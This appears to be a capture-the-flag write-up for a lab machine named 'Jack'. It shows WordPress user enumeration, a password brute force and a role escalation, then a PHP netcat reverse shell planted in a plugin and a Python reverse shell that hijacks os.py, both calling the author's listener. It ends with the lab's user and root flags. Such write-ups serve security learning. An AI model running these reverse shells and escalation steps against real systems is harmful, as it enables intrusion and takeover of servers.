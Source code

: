 # Jack 

> VOiD | Sunday 08 August 2021 10:07:21 PM IST

My IP : 10.17.6.109
Target IP : 


# PORT 80
JACK IS VISITING OVERLOOK HOTEL IN COLORADO FOR SOME INSPIRATION.

users
```bash
[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

wpscan --url http://jack.thm/ --usernames wendy -P /usr/share/wordlists/fasttrack.txt | tee wpsc3
[!] Valid Combinations Found:
 | Username: wendy, Password: changelater

msfconsole : exploit/unix/webapp/wp_admin_shell_upload

change wendy user permisions using burpsuite and add between parameter passed: ure_other_roles=administrator



```

Reverse shell
It was not possible to hook the 404.php template with a PHP reverse shell but but updating the plugins is possible.

Prefix the existing code of any plugin (e.g. Hello Dolly > hello.php) with a reverse shell, as shown below:
```php

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.6.109 4444 >/tmp/f'); ?>
```
Save the page, open a listener (rlwrap nc -nlvp 4444) and activate the plugin. It should trigger a shell:

user www-date
```bash
cat reminder.txt 

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.

/var/backups/id_rsa is readable
```

user jack
```bash
cat user.txt 
0052f7829e48752f2e7bf50f1231548a

./pspy

2020/06/18 09:54:01 CMD: UID=0    PID=27142  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 

nano os.py
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.17.6.109",8888))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

user root
```bash
cat root.txt 
b8b63a861cc09e853f29d8055d64bffb


```
